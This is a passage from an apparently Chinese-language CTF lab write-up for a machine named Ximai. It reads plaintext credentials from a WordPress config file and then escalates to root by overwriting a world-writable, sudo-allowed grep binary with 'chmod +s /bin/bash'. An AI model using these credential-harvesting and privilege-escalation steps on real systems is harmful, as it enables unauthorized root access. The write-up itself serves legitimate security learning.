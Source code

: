 查看WordPress配置文件：

```bash
jimmy@Ximai:/var/www/wordpress$ cat wp-config.php 
...
/**
 * adminer:adminer123456
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', 'SuperSecret' );
...
```

在配置文件中发现adminer用户的明文密码：`adminer123456`

# 五、权限提升

## 切换用户

使用获取的密码切换到adminer用户：

```bash
jimmy@Ximai:/tmp$ su adminer
Password: 
adminer@Ximai:/tmp$ sudo -l
Matching Defaults entries for adminer on Ximai:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User adminer may run the following commands on Ximai:
    (ALL) NOPASSWD: /usr/bin/grep
```

## 利用sudo权限

发现adminer用户可以以root权限执行`/usr/bin/grep`命令，但存在限制。检查grep文件权限：

```bash
adminer@Ximai:/tmp$ ls -la /usr/bin/grep
-rwxr-xrwx 1 root root 19 Aug 30 23:32 /usr/bin/grep
```

发现grep文件具有写权限，可以覆盖其内容：

```bash
adminer@Ximai:/tmp$ echo 'chmod +s /bin/bash' > /usr/bin/grep
adminer@Ximai:/tmp$ sudo /usr/bin/grep
adminer@Ximai:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功为bash文件设置SUID权限，获取root权限：

```bash
adminer@Ximai:/tmp$ bash -p
bash-5.0# cat /root/r00t.txt /home/jimmy/us3r.txt 
flag{root-126e5653-3b02-11f0-b074-000c2921b441}
flag{user-ffbea0a7-3b01-11f0-9160-000c2921b441}
```